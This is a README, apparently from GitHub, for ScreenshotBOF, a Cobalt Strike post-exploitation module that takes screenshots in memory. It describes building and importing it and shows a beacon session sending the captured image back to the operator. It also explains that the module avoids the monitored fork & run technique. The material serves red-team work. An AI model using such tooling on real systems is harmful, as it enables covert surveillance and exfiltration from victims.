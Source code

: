 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1}

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
  
```
beacon> screenshot_bof sad.bmp 1
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 5267 bytes
[+] received output:
[*] Screen saved to bitmap
[+] received output:
[*] Downloading bitmap over beacon with filename sad.bmp
[*] started download of sad.bmp
```

## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for BMP rendering in aggressorscript, and screenshot callback branch